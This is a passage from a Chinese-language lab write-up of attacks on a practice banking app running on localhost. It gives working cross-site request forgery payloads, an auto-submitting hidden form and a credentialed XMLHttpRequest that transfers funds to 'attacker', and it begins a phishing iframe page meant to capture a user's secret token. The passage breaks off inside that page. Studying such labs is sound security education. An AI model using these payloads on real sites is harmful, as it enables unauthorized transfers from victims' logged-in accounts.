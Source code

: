 ```html
        function validate(){
            document.getElementById("pay").submit();
        }
        window.load = validate();
        setTimeout(function(){window.location = "http://baidu.com";}, 0.1);
        </script>
</body>
</html>
```

表单的字段都是隐藏的，并且值都是给定的，之后通过

```js
document.getElementById("pay").submit();
```

实现自动提交

最后

```js
setTimeout(function(){window.location = "http://baidu.com";}, 0.1);
```

0.1s 后跳转到百度首页

也可以使用 `xmlhttprequest` ，一样的思路

```html
<html>
  <body>
    <script>
      var request = new XMLHttpRequest();
      request.open("POST", "http://localhost:3000/post_transfer");
      request.setRequestHeader("Content-type","application/x-www-form-urlencoded");
      request.withCredentials = true;
      try {
        request.send("quantity=10&destination_username=attacker");
      } catch (err) {
        //
      } finally {
        window.location = "http://baidu.com/";
      }
    </script>
  </body>
</html>
```

 Attack 4: Cross-site request forgery with user assistance

由于 `http://localhost:3000/super_secure_transfer` 转账的时候，表单带上了一个随机token，所以没办法通过 `CSRF` 来转帐，只能通过钓鱼的办法，欺骗用户输入自己的 `Super Secret Token`,这样我们就能绕过服务器的校验了

`bp2.html` 可以使用上一个的代码

```
bp.html
<html>
  <head>
    <title>23333</title>
  </head>
  <body>
    <style type="text/css">
      iframe {
      width: 100%;
      height: 100%;
      border: none;
      }
    </style>
    <script></script>
```